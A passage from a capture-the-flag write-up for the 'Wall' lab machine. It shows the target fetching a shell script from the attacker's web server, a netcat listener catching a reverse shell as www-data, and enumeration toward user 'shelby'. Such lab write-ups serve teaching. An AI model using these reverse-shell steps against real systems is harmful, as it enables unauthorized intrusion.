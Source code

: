 Hits on webserver:

```
10.10.10.157 - - [15/Sep/2019 05:34:00] "GET /shell HTTP/1.1" 200 - 

```

And then shell:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.157.
Ncat: Connection from 10.10.10.157:35064.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Wall:/usr/local/centreon/www$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),6000(centreon)

```

I can see `user.txt`, but I can’t read it:

```

www-data@Wall:/home/shelby$ ls -l 
total 12
-rw-rw-r-- 1 shelby shelby 4567 Jul 30 17:37 html.zip
-rw------- 1 shelby shelby   33 Jul  4 01:22 user.txt

```

## Priv: www-data –> shelby

### Enumeration

In `/opt`, there’s a hidden directory:

```

www-data@Wall:/opt$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Jul  4 17:28 .
drwxr-xr-x 23 root root 4096 Jul  4 00:25 ..
drwxr-xr-x  2 root root 4096 Jul 30 17:39 .shelby

```

It has a single file, which is a python byte compiled program:

```

www-data@Wall:/opt/.shelby$ file backup 
backup: python 2.7 byte-compiled

```
